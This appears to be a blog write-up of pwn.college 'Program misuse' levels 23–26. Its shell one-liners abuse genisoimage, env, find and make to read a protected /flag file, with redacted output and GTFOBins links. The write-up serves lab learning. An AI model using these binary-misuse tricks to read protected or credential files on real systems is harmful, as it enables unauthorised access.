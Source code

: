 ```yaml
---
title: "pwn.college - Program misuse"
date: 2024-04-09
categories: ["Writeup"]
tags: ["pwn.college", "ctf"]
series: ["pwn.college"]
series_order: 1
---
```


pwn.college is an educational platform for students (and others) to learn and practice fundamental cybersecurity concepts.

Today we're tackling the first *dojo* “Fundamentals” with the Program Misuse module. I didn't start writing until level 23, where the solutions require slightly more thought.

---

**Forces you to understand different archive formats!**

**Level 23** : `genisoimage`

{{< button href="<https://gtfobins.github.io/gtfobins/genisoimage/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

```shell
$ genisoimage -sort /flag
genisoimage: Incorrect sort file format
        pwn.college{redacted}
```

---

**Enables you to read flags by making them execute other commands!**

**Level 24** : `env`

```shell
$ env cat /flag
pwn.college{redacted}
```

**Level 25** : `find`

```shell
$ find /flag -exec cat {} \;
pwn.college{redacted}
```

**Level 26** : `make`

{{< button href="<https://gtfobins.github.io/gtfobins/make/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

```shell
$ make -s --eval=$'x:\n\t-'"cat /flag"
pwn.college{redacted}
```
